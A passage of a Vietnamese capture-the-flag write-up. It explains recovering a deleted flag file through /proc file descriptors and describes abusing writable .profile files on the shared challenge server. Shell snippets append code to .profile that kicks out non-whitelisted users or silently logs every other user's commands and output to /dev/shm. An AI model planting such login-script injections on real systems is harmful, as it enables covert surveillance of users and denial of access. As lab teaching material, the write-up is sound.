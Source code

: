 - Lúc này ta nhận thấy file **flag.txt** đã bị xóa (đúng hơn là đã bị unlink) nhưng vẫn còn 1 process đang mở file **flag.txt** và file **flag.txt** vẫn chưa bị đóng trong process đó. Vậy là **I-node** cũng như nội dung của file **flag.txt** vẫn còn trong ổ cứng và vẫn có thể truy cập thông qua **/proc/10/fd/3**. Cái **PID 10** kia có thể tìm thấy thông qua câu lệnh **ps aux** để tìm **PID** của chương trình python đang chạy, còn file có tên là **3** thì chắc chắn rồi vì code python không xóa file nào trước hay sau khi mở file **flag.txt**, và chỉ mở 1 file **flag.txt** (đoạn này để chắc chắn cứ kiếm tra thư mục **/proc/{PID}/fd** rồi **ls -l** để biết nó link đến file nào).  
- Sau khi đã lấy được flag thì ae có thể decode ROT13 để lấy flag cuối cùng. 
- P/s: vì mình build challenge này dựa trên ý tưởng của 1 bài writeup khác nên lúc đó mình chưa biết đến kiến thức sâu xa này, nên nội dung của flag không được khớp lắm. Tuy nhiên vẫn có thể sẽ đúng bởi vì trong code python ở file **mywork.py** có 1 dòng **flag = f.read()** nên nội dung file flag cũng đã được load vào bộ nhớ RAM, chỉ tiếc là mình không đọc được file **mem** hay file **stack**, nếu đọc được thì nội dung của flag lại ok :vv

### Khai thác challenge này
- Trên hệ thống server này tác gỉả đã cấu hình permission cho các file **.profile**, **.bashrc** không đúng, cho phép user sau khi login vào hệ thống có thể sửa đổi các file này. Mình sẽ giới thiệu 2 trường hợp có thể khai thác từ lỗ hổng này.
    + Phương án 1: 1 người chơi nào đó có thể chèn đoạn code sau vào trong file **.profile** nhằm để logout toàn bộ người chơi đăng nhập vào server với IP không thuộc IP cho phép. Tuy nhiên cách này thì cũng đơn giản mà lại quá lộ liễu, người chơi có thể dễ dàng thay đổi lại file **.profile** từ bên ngoài mà không cần login thao tác với server từ bên trong.
        ```sh
        #! /bin/sh
        white_ip='117.2.164.216'
        login_ip=`echo $SSH_CONNECTION | cut -d " " -f1`
        if [ "$white_ip" != "$login_ip" ] ; then
            exit 0
        fi
        ```
    + Phương án 2 (ý tưởng của phương án này là từ bạn Nguyễn Đức Nghĩa k19): Đó là lưu lại tất cả command từ những người chơi khác vào 1 file log, và nếu 1 ai đó giải ra thì command sử dụng cũng như flag sẽ được lưu lại trong file log đó, người chơi đó chỉ việc check log để lấy flag cũng như solution. Để làm được điều này thì trên hệ thống Linux có 1 câu lệnh **script** dùng để lưu lại lịch sử command cũng như kết quả của command của người dùng. Vì file **.profile** có quyền ghi, mà bất kỳ ai sau khi login vào server, hệ thống sẽ auto chạy file **.profile** này, do đó giống như phương án 1, ta sẽ chèn đoạn code sau vào trong file **.profile**. Với đoạn code này thì mọi thao tác cũng như kết quả command của người chơi sẽ được lưu hết tại file **/dev/shm/admin_log**.
        ```sh
        echo 'exec script -a -f -q -c /bin/sh /dev/shm/admin_log' >> /home/chall/.profile
        ```

## Challenge 4
- Link: nc 167.172.68.241 2002
### Solution:
- Với mô tả của challenge: flag được chia làm 3 phần và đang được lưu trong 1 process nào đó. Thì chúng ta có thể tìm kiếm trong chính process này xem sao.
- Đầu tiên chúng ta có thể tìm kiếm tên của chương trình cũng như cách chương trình này được chạy bằng cách mở file **/proc/self/cmdline**
